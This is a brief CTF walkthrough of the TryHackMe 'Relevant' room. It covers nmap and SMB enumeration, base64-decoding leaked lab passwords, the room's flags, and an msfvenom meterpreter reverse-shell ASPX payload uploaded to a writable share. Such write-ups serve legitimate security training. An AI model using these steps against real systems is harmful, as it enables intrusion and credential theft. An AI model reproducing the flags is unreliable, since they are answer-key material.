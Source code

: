 <h1>Relevant</h1>
<h3>December 24, 2024</h3>

<br>

<br>

https://tryhackme.com/r/room/relevant

<br>

<br>
nmap -sC -sV -sS -Pn -p- -T4 [Target_IP]<br>

![image](https://github.com/user-attachments/assets/2b1695db-fe46-428b-bd11-a76d6644e989)


<br>

nt4wrksv

<br>

smbclient -L \\relevant.thm<br>

![image](https://github.com/user-attachments/assets/40ed588d-5c1e-42aa-9e7c-ee670fdf999c)

<br>

smbclient -L \\\\relevant.thm\\nt4wrksv<br>

![image](https://github.com/user-attachments/assets/9bdc76d8-9135-44d8-86f0-76c8ebffad62)

<br>

ls<br>

cat passwords.txt<br>
[User Passwords - Encoded]<br>
Qm9iIC0gIVBAJCRXMHJEITEyMw==<br>
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk<br>

<br>


![image](https://github.com/user-attachments/assets/d407eec0-9d53-4552-8ed6-c4aec0cff47b)

<br>

echo Qm9iIC0gIVBAJCRXMHJEITEyMw== | base64 -d<br>
Bob - !P@$$W0rD!123r<br><br>

<br>

![image](https://github.com/user-attachments/assets/ee2c2983-cae9-4730-98c3-2e061847e683)

<br>












THM{fdk4ka34vk346ksxfr21tg789ktf45}<br>

THM{1fk5kf469devly1gl320zafgl345pv}

![image](https://github.com/user-attachments/assets/cd4976bb-8f65-4683-9861-cae9f311d288)

<br>

![image](https://github.com/user-attachments/assets/ecde9507-0634-482e-b550-c755ef856d0c)

<br>

echo QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk | base64 -d<br>
Bill - Juw4nnaM4n420696969!<br>

![image](https://github.com/user-attachments/assets/e7d0bebe-9d54-478f-9fde-b528fd2a16ba)

<br>
<br>
Bob:!P@$$W0rD!123r<br>
Bill:Juw4nnaM4n420696969!<br>

<p>The network share from ‘nt4wrksv’ is writeable</p>

<br>
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=[Attack VM] lport=[Attack Port] -f aspx -o shell.aspx


![image](https://github.com/user-attachments/assets/c26bbeaa-d518-48f5-8f71-53313d5b859a)

<br>
put shell.aspx<br>


![image](https://github.com/user-attachments/assets/d06aa0f6-45e5-405e-84e1-a5e6e8669aca)


<br>
msfupdate<br>
msfconsole<br>
msf6><br>





Global: 826th all time, 121st monthly
Brazil: 18th all time2nd monthly
493 completed rooms . 55 badges . 65,045 points
<br>

![image](https://github.com/user-attachments/assets/adf7bef1-49c7-4f4e-ba05-43049f890788)
